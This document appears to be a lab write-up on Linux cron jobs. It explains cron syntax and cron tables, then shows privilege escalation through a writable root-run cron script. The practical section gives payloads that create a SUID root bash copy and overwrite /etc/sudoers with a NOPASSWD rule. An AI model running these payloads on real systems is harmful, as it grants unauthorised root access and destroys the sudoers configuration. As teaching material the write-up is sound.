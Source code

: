 _**TO VIEW PRACTICAL, [CLICK HERE](#Practical)**_

# Cron jobs
`Cron` is a utility used in Unix systems to schedule tasks; it uses the cron daemon, `crond`, to run in the background and manage the execution of cron jobs by reading and processing the `cron table`. A cron job is a task scheduled to run in a given period that helps users automate routine tasks such as archiving logs or backing up system files. Cron jobs are maintained in cron tables, configuration files located at `/var/spool/cron/crontabs` and '/etc/crontab' that define the schedules of tasks. Cron tables can be specific to the system or individual users.

## Syntax

The system-wide cron table is readable by regular users and can be accessed with any text editor:
```
vim /etc/crontab
```
To edit the system-wide cron table, you must be a privileged user.
```
sudo vim /etc/crontab
```
You can list the cron table your account has access to with the command:
```
crontab -l
```
To edit or add a cron table, you can use the command:
```
crontab -e 
```
To schedule a cron job, use the following syntax:
```
* * * * * /path/to/file
```
Where:
- The first asterisk represents the minute (0-59)
- The second asterisk represents the hour (0-23)
- The third asterisk represents the day of the month (1-31)
- The fourth asterisk represents the month (1-12)
- The fifth asterisk represents the day of the week (0-7, where 0 and 7 both represent Sunday)

Cron syntax also uses operators on provided values in cron fields.
- An asterisk (*) represents all values.
- A comma (,) specifies a list of values.
- A dash (-) indicates a range of values.
- A forward slash (/) is used as a step value.

```
30 5 */2 * * /home/kayem/script.sh
```
The cron job above will execute /home/kayem/script.sh at 5:30 every second day of the month.

## Managing cron tables

System cron tables are located at `/etc/crontab` and require root privileges to edit. They contain scheduled tasks that apply to the entire system or require root privileges for high-privileged operations. To edit the system cron table, modify `/etc/crontab` as attempting to edit it with `sudo cron tab -e` will revise the personal cron table of the root user; rather than the system cron table. 

Each user has their own cron table. Although not created by default, a system administrator or user can make a cron table with the following commands, respectively.
```
crontab -e -u [USER]
```
```
crontab -e
```
Users can create a cron table without root privileges but are limited to scheduling tasks with the files they have permission to execute.

## Security implications of cron jobs

If misconfigured, cron jobs can be executed with elevated privileges and gain unauthorised access to critical system resources. Therefore, it is necessary that personal cron jobs run with the user's privileges; rather than higher privileged users. If a cron job file has the SUID bit set, is owned by a higher privileged user and permits writability to other users, malicious code can be injected into the cron job file.

## Practical

I identify accessible cron jobs with `crontab -e` for local cron jobs and `cat /etc/crontab` for system-wide cron jobs. The user does not have a personal cron table, yet they are granted access to the following system-wide cron jobs. 

```
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
To edit the cron job file, you must have write permissions so I identify files which can be written to by my user.
```
ls -l /home/karen/backup.sh
```
For the cron table to execute the cron job, it must have execute privileges.  
```
chmod +x /home/karen/backup.sh
```
You can modify the `backup.sh` following two methods to escalate privileges.

### Method 1

The following payload copies the `/bin/bash` binary to `/tmp/bash` and appoints the SUID bit so that it can run with the privileges of the root user (the owner of the `/home/karen/backup.sh` file.

```
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
The copied binary is then executed in privileged mode to create a new bash shell session with the effective User ID of 0 (root).

'/tmp/bash -p'

### Method 2

Alternatively, add the user to the /etc/sudoers file.

```
echo "karen ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```

Since this cron job has been scheduled to run each minute, wait a minute for the payload to take effect.
